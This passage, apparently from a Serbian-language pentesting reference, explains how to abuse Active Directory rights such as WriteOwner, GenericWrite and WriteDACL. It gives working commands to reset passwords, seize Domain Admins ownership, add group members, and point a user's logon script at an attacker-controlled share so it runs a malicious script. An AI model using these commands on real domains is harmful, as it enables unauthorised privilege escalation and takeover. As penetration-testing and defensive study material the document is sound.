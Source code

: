 ```bash
rpcclient -U KnownUsername 10.10.10.192
> setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```

## **WriteOwner na grupi**

Ako napadač otkrije da ima prava `WriteOwner` nad grupom, može promeniti vlasništvo nad grupom na sebe. Ovo je posebno značajno kada je u pitanju grupa `Domain Admins`, jer promena vlasništva omogućava širu kontrolu nad atributima grupe i članstvom. Proces uključuje identifikaciju odgovarajućeg objekta putem `Get-ObjectAcl` i zatim korišćenje `Set-DomainObjectOwner` za modifikaciju vlasnika, bilo preko SID-a ili imena.

```powershell
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
```

## **GenericWrite na korisniku**

Ova dozvola omogućava napadaču da izmeni svojstva korisnika. Konkretno, sa pristupom `GenericWrite`, napadač može promeniti putanju logon skripte korisnika kako bi izvršio zlonamernu skriptu prilikom prijavljivanja korisnika. Ovo se postiže korišćenjem komande `Set-ADObject` za ažuriranje svojstva `scriptpath` ciljnog korisnika kako bi pokazivalo ka skripti napadača.

```powershell
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

## **GenericWrite na grupi**

Sa ovom privilegijom, napadači mogu manipulisati članstvom u grupi, dodajući sebe ili druge korisnike u određene grupe. Ovaj proces uključuje kreiranje objekta za akreditaciju, korišćenje istog za dodavanje ili uklanjanje korisnika iz grupe, i proveru promena u članstvu pomoću PowerShell komandi.

```powershell
$pwd = ConvertTo-SecureString 'JustAWeirdPwd!$' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $pwd)
Add-DomainGroupMember -Credential $creds -Identity 'Group Name' -Members 'username' -Verbose
Get-DomainGroupMember -Identity "Group Name" | Select MemberName
Remove-DomainGroupMember -Credential $creds -Identity "Group Name" -Members 'username' -Verbose
```

## **WriteDACL + WriteOwner**

Vlasništvo nad AD objektom i posedovanje privilegija `WriteDACL` omogućava napadaču da sebi dodeli privilegije `GenericAll` nad objektom. Ovo se postiže manipulacijom ADSI-ja, omogućavajući potpunu kontrolu nad objektom i mogućnost modifikacije njegovih članstava u grupama. Ipak, postoje ograničenja prilikom pokušaja iskorišćavanja ovih privilegija korišćenjem `Set-Acl` / `Get-Acl` komandi Active Directory modula.
